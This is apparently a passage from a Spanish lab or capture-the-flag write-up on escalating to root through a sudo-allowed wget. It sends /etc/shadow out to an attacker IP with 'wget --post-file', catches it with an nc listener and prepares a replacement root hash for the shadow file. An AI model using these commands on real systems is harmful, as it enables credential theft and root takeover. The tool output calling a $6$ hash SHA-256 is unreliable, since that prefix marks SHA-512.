 Con wget vamos a sobrescribir el /etc/shadow, cambiando así la contraseña del usuario root. Lo primero que debemos hacer es capturar el /etc/shadow de la máquina víctima y almacenarlo en un fichero. Desde la máquina víctima ejecutamos siguiente comando

```
sudo /usr/bin/wget --post-file=/etc/shadow 10.18.103.166
```

En nuestra máquina nos ponemos en escucha

```
nc -nlvp 80
```

Con hash-identifier analizamos para ver que tipo de hash hay en el /etc/shadow

```
# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.                   

Possible Hashs:
[+] SHA-256
```

Creamos una password cifrada mediante sha-256 y la introducimos en el /etc/shadow

```
sudo mkpasswd --method=sha-256 --stdin
Contraseña: root
$5$xZPFpXu4cWJwsI4/$PmWxYqcVw18Z6Npn73Gnzk5N.XkyxNP2fSA9xcfiYC3
```

```
root:$5$xZPFpXu4cWJwsI4/$PmWxYqcVw18Z6Npn73Gnzk5N.XkyxNP2fSA9xcfiYC3:18195:
0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
```